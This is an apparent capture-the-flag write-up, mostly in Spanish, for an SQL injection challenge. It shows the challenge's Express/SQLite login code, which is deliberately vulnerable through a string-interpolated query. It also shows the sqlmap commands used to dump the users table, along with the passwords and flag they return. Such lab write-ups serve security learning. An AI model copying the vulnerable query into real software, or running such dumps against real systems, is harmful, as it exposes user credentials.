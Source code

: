 Injection Perfection

After port scanning the acmcyber site, I found [this](https://injection-perfection.acmcyber.com/) hidden login page. After bruteforcing I discovered the user: joe, has the password: bruin, but I didn't find anything useful. Can you log in as admin? [source](../attachments/src.tar.gz)

Author: Rory

Tags: sqli

---

Bajamos source, extraemos y vemos el contenido de los archivos, particularmente el de index.js:

```javascript
const express = require('express');
const path = require('path');

const multer = require('multer');
const bodyParser = require('body-parser');

const port = parseInt(process.env.PORT) || 8080;

const sqlite3 = require('sqlite3');
const db = new sqlite3.Database('app.db', sqlite3.OPEN_READONLY);

const app = express();
const upload = multer();
app.use(bodyParser.urlencoded({ extended: true }));
app.use(upload.array());
app.use(express.static('public'));

const getFavColor = async (username) => {
	return new Promise((resolve, reject) => {
		db.get('SELECT fav_color FROM users WHERE username=?', username, (err, row) => {
			if (err) return resolve(err);
			return resolve(row.fav_color);
		});
	});
};

const attemptLogin = (username, password) => {
	return new Promise((resolve, reject) => {
		db.get(`SELECT username, password FROM users WHERE username='${username}'`, async (err, row) => {
			if (err)
				return reject(err);
			else if (row === undefined)
				return reject('Invalid User');
			else if (password === row.password)
				return resolve(`My favorite color is ${await getFavColor(row.username)}`);
			else
				return reject('incorrect password');
		});
	})
};

app.get('/', (req, res) => {
	res.sendFile(path.join(__dirname, 'login.html'));
});

app.post('/', async (req, res) => {
	const username = req.body.username;
	const password = req.body.password;

	if (!username || !password)
		return res.status(400).send("Invalid Login");
	
	try {
		return res.status(200).send(await attemptLogin(username, password));
	} catch (err) {
		return res.status(400).send(err);
	}
});

app.get('*', (req, res) => {
	res.status(404).send('not found');
});

app.listen(port, () => {
	console.log(`Listening on port ${port}`);
});
```

Podemos saber que usa como base de datos sqlite3. Usamos sqlmap:

`sqlmap -r rory.req --tables`

```bash
[07:35:22] [INFO] fetching tables for database: 'SQLite_masterdb'
[07:35:22] [INFO] fetching number of tables for database 'SQLite_masterdb'
[07:35:22] [INFO] resumed: 1
[07:35:22] [INFO] resumed: users
<current>
[1 table]
+-------+
| users |
+-------+
```

Para obtener los datos de la tabla users usamos:

`sqlmap -r rory.req -T users --dump`


```bash
Database: <current>
Table: users
[3 entries]
+------------------------------------------------------------------+------------+-----------------------------------------------+
| password                                                         | username   | fav_color                                     |
+------------------------------------------------------------------+------------+-----------------------------------------------+
| bruin                                                            | joe        | blue                                          |
| bedwarsplayersarelikefliesexceptflies                            | gamerboy80 | red                                           |
| ad28b35084eabdb7edd22df20378748eb7575aef1342775f151efdc79abda430 | admin      | flag{red_is_the_best_color_fight_me_you_wont} |
+------------------------------------------------------------------+------------+-----------------------------------------------+

```

Flag: flag{red_is_the_best_color_fight_me_you_wont}